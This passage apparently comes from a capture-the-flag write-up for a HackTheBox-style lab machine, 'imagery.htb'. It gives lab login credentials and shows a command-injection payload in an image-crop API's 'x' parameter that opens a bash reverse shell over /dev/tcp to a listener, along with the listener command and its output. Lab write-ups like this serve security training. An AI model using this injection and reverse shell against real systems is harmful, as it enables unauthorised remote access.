 Login with the credentials `testuser@imagery.htb:iambatman`.

**RCE Vector:** The image transformation feature executes shell commands!

**Steps:**
1. Upload an image
2. Navigate to **Image Gallery**
3. Click the three dots → **Transform Image** → **Crop**
4. Intercept the request with **Burp Suite**

**Original Request:**

```json
POST /api/transform_image HTTP/1.1
Host: imagery.htb:8000
Content-Type: application/json

{
  "imageId": "108c9306-29e9-4717-b150-5a51eea7b56f",
  "transformType": "crop",
  "params": {
    "x": 0,
    "y": 0,
    "width": 640,
    "height": 640
  }
}
```

**The `x` parameter is vulnerable to command injection!**

### Step 7: Reverse Shell

**Set up a listener on your attacking machine:**

```bash
pwncat-cs -p 4444
```

**Modify the request to inject a reverse shell:**

```json
{
  "imageId": "108c9306-29e9-4717-b150-5a51eea7b56f",
  "transformType": "crop",
  "params": {
    "x": ";setsid /bin/bash -c \"/bin/bash -i >& /dev/tcp/10.10.14.74/4444 0>&1\";",
    "y": 0,
    "width": 640,
    "height": 640
  }
}
```

**Send the request and catch the shell!**

```bash
[08:18:45] Welcome to pwncat 🐈!
```
